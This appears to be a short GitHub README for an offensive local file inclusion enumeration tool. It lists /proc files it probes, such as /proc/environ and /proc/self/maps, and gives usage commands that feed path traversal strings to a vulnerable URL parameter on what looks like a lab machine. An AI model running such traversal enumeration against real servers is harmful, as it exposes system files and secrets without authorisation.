 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* /proc/patch-state
* /proc/numa_maps
* /proc/stack
* /proc/personality
* /proc/pagemap
* /proc/cgroup
* /proc/sched
* /proc/mounts
* /proc/status
* /proc/environ
* /proc/shedstat
* /proc/meminfo
* /proc/self/
* /proc/self/stat
* /proc/self/maps/
* and more
# Usage 

# Enum all
* `./sl0ppy-lfi http://10.10.11.154/index.php?page=` 
* `./sl0ppy-lfi http://10.10.11.154/index.php?page=../../../../../../../../../../` 

# enum specific stuff like only libc
* `./sl0ppy-lfi http://10.10.11.154/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://10.10.11.154/index.php?page=../../../../../../../../../../ | grep "libc"` 

# sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 
